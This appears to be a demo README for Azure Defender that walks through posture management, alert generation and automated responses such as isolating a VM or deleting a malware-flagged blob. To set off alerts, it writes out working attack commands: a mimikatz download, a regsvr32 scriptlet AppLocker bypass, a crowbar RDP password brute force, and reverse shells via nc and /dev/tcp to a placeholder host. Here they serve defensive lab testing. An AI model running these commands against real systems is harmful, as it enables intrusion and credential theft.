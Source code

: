 # Infrastructure demo

## Posture management - secure score, best practicies, vulnerabilities
### Vulnerabilities
Check vulnerabilities found in VMs (by Qualys engine), container images, storage accounts, recommended security configurations.

### Policies - VMs, Kubernetes, Policy as Code
- Explain policy as code principles
- In policy definitions show examples:
    - Azure policy -> search for:
        - locations
        - backup
        - encrypt
        - firewall
        - logs
    - OS level policies -> search for audit
    - Containers and Kubernetes policies -> search for container
- Search for initiatives such as ISO 27001
- Remidiations
- Blueprints

## Threat protection and automation

### Windows Host level protection
Search for alerts such as suspicious process or RDP attack.

To generate some alerts, you can run the following on monitored VM.

```powershell
# Create file with malware test content
'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | Out-File EICAR.com

# Copy svchost.exe to non-standard location and execute it
Copy-Item -Path C:\Windows\System32\svchost.exe C:\
C:\svchost.exe

# Download and expand mimikatz
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip","c:\install\mimikatz_trunk.zip")
cd c:\install
Expand-Archive -LiteralPath 'c:\install\mimikatz_trunk.zip'

# Attempt to bypass App Locker
echo '<?XML version="1.0"?>' | Out-File test.sct
echo '<scriptlet>' | Out-File -Append test.sct
echo '<registration' | Out-File -Append test.sct
echo ' progid="TESTING"' | Out-File -Append test.sct
echo ' classid="{A1112221-0000-0000-3000-000DA00DABFC}" >' | Out-File -Append test.sct
echo ' <script language="JScript">' | Out-File -Append test.sct
echo ' <![CDATA[' | Out-File -Append test.sct
echo ' var foo = new ActiveXObject("WScript.Shell").Run("powershell.exe InvokeWebRequest -OutFile eicar.com http://www.eicar.org/download/eicar.com");' | Out-File -Append test.sct
echo ' ]]>' | Out-File -Append test.sct
echo '</script>' | Out-File -Append test.sct
echo '</registration>' | Out-File -Append test.sct
echo '</scriptlet>' | Out-File -Append test.sct
regsvr32.exe /s /u /i:test.sct scrobj.dll
```

From Linux machine initiate RDP brute force attack. 

```bash
# Download 500 worst passwords dictionary
wget http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2
bzip2 -d 500-worst-passwords.txt.bz2

# Install crowbar and run RDP dictionary attack
sudo apt install -y ubuntu-desktop nmap openvpn freerdp-x11 tigervnc-viewer python3 python3-pip

git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt

./crowbar.py -b rdp -u administrator -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n1
./crowbar.py -b rdp -u tomas -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n 1
./crowbar.py -b rdp -u tomas -c Azure12345678 -s 10.0.0.4/32 -v -D -n 1
```

Use automation to isolate RDP access (Logic App with NSG). Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

1. Open Alert that includes attacker IP (eg. RDP brute force attack)
2. In portal show VM blade with Networking - RDP from inside VNET is allowed without restrictions
3. Take action on alert by invoking isolateVm Logic App
4. Check VM blade again for blocking rule on Networking
5. You will also receive email message

### Linux Host level protection
Generate suspicious activity on Linux VM.

```bash
# Attempt to create revese shell
nc -e /bin/bash 1.2.3.4 1234
bash -i>& /dev/tcp/1.2.3.4/1234 0>&1

# Add and remove kernel module
# sudo insmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
# sudo rmmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
```

Check alert in Azure Defender.

### Storage protection
As per demo install instructions (README.md) we have already uploaded EICAR test malware file to blob storage.

Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

Demonstrate blob malware automation:
1. Open alerts that malware was detected in Blob Storage
2. Open Blob Storage and show files is there
3. Click on alert and take action by executing azdefenderDeleteBlob Logic App
4. You will receive email - click on delete button
5. Show file has been deleted, yet is recoverable due to Soft Delete feature
6. Show confirmation email





